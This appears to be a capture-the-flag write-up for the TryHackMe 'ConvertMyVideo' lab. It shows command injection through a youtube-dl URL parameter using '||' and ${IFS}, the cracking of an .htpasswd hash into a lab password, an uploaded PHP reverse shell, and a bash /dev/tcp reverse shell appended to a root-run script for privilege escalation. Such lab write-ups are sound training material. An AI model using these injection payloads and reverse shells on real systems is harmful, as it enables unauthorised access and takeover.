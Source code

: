 # ConvertMyVideo [THM](https://tryhackme.com/room/convertmyvideo)

![machine=01](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/machine-01.png)


### Recon

Lets kick off our enumeration stage with `nmap`.

`nmap -sC -sV -p -A 10.10.79.56 -oN nmap.result`

![nmap-result-02](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/nmap-02.png)

Here are the results:	

Lets go take a look at this Apache server.


## Apache 

Lets navigate to the site:

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/site-03.png)

Lets open Burp, and capture a request for some factitious youtube video ID.
We get following error message from the server:

![burp-04](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/burp-04.png)

Trying to send a legitamte youtube video ID stalls the server for a copule of minutes then 
returns nothing. So while waiting i decided to try directory busting. 


### Directory Busting

I used `ffuf`:

`ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.
3-medium.txt:FUZZ -u http://10.10.79.56/FUZZ`

With it came some itersting results: 

![ffuf-res-05](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/ffuf-res-05.png)


Visiting this URL prompts us for credetials: 

![pass-prompt-06](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/pass-prompt-06.png)

It looks like a basic authintication scheme.

![burp-pass-07](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/burp-pass-07.png)

Yes is it is.  HTTP Basic authentication is the simplest technique for 
enforcing access controls to web resources because it doesn't require cookies, session 
identifiers, or login pages; rather, HTTP Basic authentication uses standard fields in the 
HTTP header, obviating the need for handshakes.

This matters because, it means the web server is using `.htaccess` and `.htpasswd` files 
to authinticate users. `.htpasswd` is of special interest to us since it hold user credetials.  
If we can find this file on the server we have our entry point. 


### Command Injection

Lets start playing around with the HTTP headers to try and provoke server errors.
What if instead of going to youtube, we point the server to its self? 

![server-err-08](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/server-err-08.png)


Okay, the backend is using `youtube-dl`. It seems like whatever we pass to the `yt_url` 
parameter in our `POST` request, is passed to `youtube-dl` . 
  
`youtube-dl` is an open source project, you can find [here](https://github.com/ytdl-org/youtube-dl) 

Based on its github, the syntax is as follows: 
`youtube-dl [OPTIONS] URL`

In essense, whatever we supply to the `yt_url` parameter becomes the <URL> part above.
Lets try to break out of the `youtube-dl` command. 

To do that, im thinking of a few things, we can either try to send a cariage return sequance 
(works sometimes, not in this case). 

We can try Openining a subshell with backticks \`\` or $() to give priority to whatever is inside. 
(doesnt work in this case either). 

Or, We could also try to use `||` to execute two commands one after the other. 
This works:

![burp-ls-09](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/burp-ls-09.png)

This is a command injection vulnerability, but we have one major issue, we cant uses spaces.
sending something like `||cat /etc/passwd` will break the execution. 

We have to use an espace sequance. After some experimentations ive found that `${IFS}` works:

![burp-esc-10](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/burp-esc-10.png)

Now we can find the `.htpasswd` file with a simple search: `||find${IPS}-name${IFS}.htpasswd`.
This shows that the file is at `admin/.htpasswd`, lets cat it out: 

![creds-11](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/creds-11.png)


### The Admin Panel

The stored credetials are: `itsmeadmin : $apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/`, 
its an arp1 hash. Can we crack it with `hashcat`? 

`hashcat --help | grep -i arp1`

![hashcat-help-12](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/hashcat-help-12.png)


Lets crack it: 
`hashcat -m 1600 '$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/' /usr/share/wordlists/rockyou.txt`

![pass-13](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/pass-13.png)

The credtials to the admin panel are `itsmeadmin : jessie`  Lets log in: 
	
![admin-panel-14](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/admin-panel-14.png)

If we take a look at the source code for the page: 

![admin-source-15](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/admin-source-15.png)

It looks for a "c" parameter in the URL, we can use our previous command injection to try
and find the `index.php` file that runs in the backend for this page:

![index-pos-16](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/index-pos-16.png)

Lets cat it out: 

![index-17](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/index-17.png)

The backend checks if any argument was given to the "c" parameter in the URL.
If so, it execute the `system()` function to run whatever was given to it on the OS. 
 
This is another command injection vulnerability: 

![pwned-18](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/pwned-18.png)

Lets send a reverse shell.


### Gaining Access

I like using [pentestmonkey's PHP reverse shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell). 

Change the port and ip to your situation: 

![pentest-19](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/pentest-19.png)

Start a python server `python3 -m http.server 8888`

And download the file to the target: 

![upload-20](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/upload-20.png)

Start the listener with `nc -lnvp 4242`

Navigate to the file location: 

![navigate-21](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/navigate-21.png)

It stalls, thats a great sign, lets check the listener: 

![shell-22](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/shell-22.png)

Lets move to privilege escalation!


## Privilege Escalation

After looking around a bit, ive found nothing meaningful to exploit. 
Lets fire off `pspy64`:

![priv-esc-23](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/priv-esc-23.png)

We have UID 0 running a script from our user's home directory, Lets check the permissions: 

![perms-24](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/perms-24.png)

We can write to the file, Lets append a reverse shell to it:
`echo '/bin/bash -l > /dev/tcp/10.18.22.182/4242 0<&1 2>&1' >> clean.sh`

A few seconds after setting up the listener we get a connection:

![root-25](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/ConvertMyVideo/img/root-25.png) 
